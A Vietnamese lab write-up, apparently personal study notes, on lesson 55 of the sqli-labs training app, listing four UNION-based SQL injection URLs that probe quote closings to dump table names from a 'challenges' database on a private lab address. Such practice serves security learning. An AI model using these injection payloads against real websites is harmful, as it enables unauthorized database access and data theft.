




# Những việc làm được với lesson-55
Việc check xem nó là dạng DB gì thì làm giống như những lesson trước. Ta sẽ sử dụng command `nmap`

Sau khi đăng nhập vào lesson-55



Bài này yêu cầu giống bài 54 ta chỉ việc đi tìm cấu trúc của nó Và kết hợp cùng với union luôn. Và ta có được 14 lần thử  

- Lần 1 : Không thành công 
```
192.168.80.225/sqli-labs/Less-55/?id=0') union select 1,2,group_concat(table_name) from information_schema.tables where table_schema='challenges' --+
```

- Lần thứ 2: 
```
192.168.80.225/sqli-labs/Less-55/?id=0')) union select 1,2,group_concat(table_name) from information_schema.tables where table_schema='challenges' --+
```



- Lần thứ 3: 
```
192.168.80.225/sqli-labs/Less-55/?id=0" union select 1,2,group_concat(table_name) from information_schema.tables where table_schema='challenges' --+
```



- Lần thứ 4: 
```
192.168.80.225/sqli-labs/Less-55/?id=0) union select 1,2,group_concat(table_name) from information_schema.tables where table_schema='challenges' --+
```



Tìm được cấu trúc và đồng thời show được tên table của DB `challenges` Tương tự như thế ta làm giống bài 54 để nhận được kết quả 